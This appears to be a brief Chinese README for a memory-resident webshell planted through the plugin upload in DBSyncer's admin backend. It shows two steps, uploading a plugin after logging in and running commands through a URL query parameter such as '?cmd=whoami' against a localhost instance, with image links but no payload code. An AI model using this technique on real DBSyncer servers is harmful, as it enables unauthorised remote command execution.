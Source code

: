 # DBSyncer后台插件内存马

0x01 登录后台上传插件
![img.png](img/img.png)
0x02 执行命令
```java
http://localhost:18686/?cmd=whoami
```
![img.png](img/img-rce.png)
